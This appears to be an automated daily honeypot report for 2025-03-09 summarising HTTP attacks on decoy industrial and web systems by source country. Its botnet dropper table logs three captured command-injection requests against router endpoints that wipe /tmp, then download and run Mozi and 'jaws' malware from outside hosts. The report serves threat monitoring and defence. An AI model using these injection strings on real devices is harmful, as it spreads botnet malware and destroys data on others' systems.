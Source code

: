 ```yaml
---
title: "Report: 2025-03-09 "
date: 2025-03-09
desciption: "Report: {today} "
tags: [repport, daily]
---
```


# Daily Report: 2025-03-09
interaction report on http service of various Hhoneypot around the world.
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of source IP addresses](#list_of_source_ip_addresses)
- [List of user_agent](#user_agent)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| NL               |                    |
| NL               |                    |
| US               |                    |
| US               |                    |
| US               |                    |
| BR               |                    |
| US               |                    |
| US               |                    |
| NL               |                    |
| AR               |                    |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                      |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 102.46.216.1   | GET /shell?cd+/tmp;rm+-rf+*;wget+ 213.209.129.101/jaws;chmod+777+/tmp/jaws;sh+/tmp/jaws HTTP/1.1                                                                             |
| 120.85.185.170 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://192.168.1.1:8088/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                   |
| 175.107.1.168  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://175.107.1.168:44567/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
